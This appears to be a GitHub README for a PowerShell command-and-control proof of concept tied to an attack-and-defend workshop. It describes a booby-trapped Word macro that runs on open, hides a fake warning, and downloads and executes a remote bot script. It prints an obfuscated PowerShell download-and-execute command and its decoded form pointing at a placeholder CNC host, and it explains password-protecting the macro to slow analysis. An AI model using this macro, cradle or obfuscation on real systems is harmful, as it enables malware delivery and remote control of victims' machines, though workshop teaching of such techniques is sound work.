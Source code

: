 # powershell\_cnc
Accompanies the Attack and Defend with Powershell workshop.  A simplified POC demoing Powershell attack methods.


# Word Document:
The macro uses Document_Open() to run as soon as macros are enabled.  It first hides the fake warning message using    Shape.Visible = False , giving the impression that the message was legitimate.  It then connects to the command and control center at http://CNC_URL, downloads the plain-text bot script, and executes it in a new Powershell process.  This way, the connection persists after the Word document is closed.  Nothing is written to disk at this point.  The encoded command used to connect is a Base64 representation of this obfuscated command:

"&('{1}{0}'-f'x','iE')((.('{0}{1}{2}{3}'-f[char]110,'eW','-oBj','eCt')('{0}{2}{1}'-f'nEt.WeBC','ENT','Li')).('{1}{0}{2}'-f'adStRin','DownLO',[char]103)(('{1}{2}{2}{3}{0}'-f'\_URL','h',[char]116,'p://CNC')))"

which in turn translates to:

Invoke-Expression( (New-Object Net.WebClient).DownloadString('http://CNC_URL') )

You can view the VBA code using password "Password1".  Added it as most booby-trapped macro-enabled documents protect their code with a password.  They're trivial to bypass - you can replace the password with a different one using a hex editor.  Still, they provide some layer of protection against curious end-users and automated analysis software.
